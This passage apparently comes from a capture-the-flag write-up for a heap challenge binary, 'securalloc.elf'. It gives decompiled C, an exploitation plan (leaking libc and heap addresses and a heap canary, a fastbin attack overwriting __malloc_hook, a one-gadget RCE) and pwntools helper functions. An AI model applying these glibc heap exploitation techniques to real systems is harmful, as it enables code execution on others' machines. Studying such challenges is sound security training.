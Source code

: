     ```c
    _BYTE *__fastcall fn_read_B1A(_BYTE *buffer) // securalloc.elf
    {
    _BYTE *buf;

    for ( buf = buffer; ; ++buf )
    {
        if ( !read(0, buf, 1uLL) )
        exit(1);
        if ( *buf == '\n' )
        break;
    }
    *buf = 0;
    return (buf - buffer);
    }
    ```

#### Exploitation's scenario

1. Leaking libc_base, heap_base, and heap_canary.

2. Using fastbin attack and overwriting `__malloc_hook` pointer.

3. Get one gadget RCE.

### Exploitation

#### Helpers

For the sake of tidy script.

```python
r = process("./securalloc.elf", aslr=1)
l = ELF("./libc.so.6", checksec=False)
#gdb.attach(r)

def create(r, l):
    r.sendlineafter("> ", "1")
    r.sendlineafter("Size: ", l.__str__())

def edit(r, c):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Data: ", c)

def show(r):
    r.sendlineafter("> ", "3")
    r.recvuntil("Data: ")

def free(r):
    r.sendlineafter("> ", "4")

path_to_libc = 'libc.so.6'
ogt = []
for offset in generate_one_gadget(path_to_libc):
    ogt.append(offset)
```
